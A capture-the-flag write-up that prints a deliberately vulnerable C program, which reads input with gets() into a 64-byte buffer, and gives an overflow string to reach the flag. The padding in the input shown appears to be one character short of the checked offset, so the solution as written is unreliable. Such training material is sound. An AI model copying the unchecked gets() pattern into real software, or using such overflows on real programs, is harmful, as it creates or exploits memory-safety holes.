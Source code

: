 # Katipwnan Bomb

## Problem
### chal.c contents:
```C
#include <stdio.h>

void get_flag() {
    FILE *f = fopen("./flag.txt", "r");
    char buf[200];
    fgets(buf, 200, f);
    printf("%s\n", buf);
    fclose(f);

    return;
}

int main(void) {
    setbuf(stdout, NULL);

    puts("Bomb is 64 in size and 'ret' is the ending command to fire, also this is not valorant...");
    printf("Plant the spike: ");
    char buf[64];
    gets(buf);

    if (buf[64] == 'r' && buf[65] == 'e' && buf[66] == 't') {
        printf("All right!\nHere is your flag: ");
        get_flag();
    } else {
        printf("Try again!\n");
    }
    
    return 0;
}
```
## Solution
The goal is to bypass the program by setting the values at the addresses after the bomb's location to ret. To do so, we need to fill the entire bomb, then the extra characters will the values set to the addresses after the bomb. So I inputed this in the program to get the flag:

```txt
012345678901234567890123456789012345678901234567890123456789012ret
```

Which outputs:

```txt
All right!
Here is your flag: CITU{k4tipwn4n_0v3rfl0w_b0mb_4ctiv4t3d_BO000000M!!}
```